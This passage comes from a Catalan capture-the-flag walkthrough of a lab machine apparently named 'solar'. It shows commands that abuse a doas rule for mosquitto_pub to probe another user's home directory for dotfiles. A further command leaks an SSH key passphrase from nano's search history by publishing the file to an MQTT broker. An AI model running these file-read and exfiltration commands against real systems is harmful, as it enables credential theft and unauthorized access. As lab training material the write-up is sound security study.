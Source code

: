 ```bash
www-data@solar:/tmp$ curl https://wiki.debian.org/DotFilesList 2> /dev/null | grep -oP '(?<=\<tt class="backtick">).*?(?=</tt>)' | sort | uniq  > dotfiles.txt
```

i busquem si hi ha algun fitxer de la llista dins del home de lenam que puguem obtenir.

```bash
www-data@solar:/tmp$ cat ./dotfiles.txt | tr '\n' '\0' | xargs -0 -I {} -P 50 bash -c '
    result=$(doas -u lenam /usr/bin/mosquitto_pub -f "/home/lenam/.local/nano/{}" 2>&1 | wc -l)
    if [ "$result" -eq 3 ]; then
        echo "** Folder {} $(ls -dlah {} 2>/dev/null)"
    elif [ "$result" -eq 97 ]; then
        echo "** File {} $(ls -lah {} 2>/dev/null)"
    fi
'
** File .bash_logout
** File .bash_history
** File .bashrc
** Folder .gnupg/
** File .lesshst
** Folder .local/
** File .nanorc
** File .ssh/authorized_keys
```

Trobem les carpetes `.gnupg/` i `.local/` on podem tornar a passar l'escàner improvisat. També utilitzem altres diccionaris trobats per internet, modificant-los si cal.

- https://github.com/bhavesh-pardhi/Wordlist-Hub/blob/main/WordLists/dotfiles.txt
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

Trobem el passphrase del `id_ed25519` de l'usuari lenam filtrat a l'historial de cerques de l'editor nano al fitxer `/home/lenam/.local/share/nano/search_history`.

L'enviem al servidor MQTT:

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.local/share/nano/search_history
```

![Passphrase filtrat](../../../assets/images/solar/image-15.png)
